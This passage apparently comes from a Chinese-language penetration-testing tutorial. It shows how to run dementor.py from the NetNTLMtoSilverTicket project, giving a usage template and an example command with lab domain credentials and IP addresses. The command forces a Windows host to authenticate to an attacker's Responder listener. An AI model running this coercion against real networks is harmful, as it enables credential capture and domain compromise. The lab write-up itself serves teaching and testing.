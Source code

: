 [![](assets/1699407498-5c23282873de04ea24266e7f77eb66c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144250-b4447d62-7c6f-1.png)  
b、使用dementor.py脚本  
[https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

```plain
#格式：
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>

#示例：
python3 dementor.py -d hacke.testlab -u Al1ex -p 'Kksvqm@123' 192.168.174.129 192.168.174.2
```

[![](assets/1699407498-54523eee620c592a0d7df3abc6c27e0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144314-c2966826-7c6f-1.png)  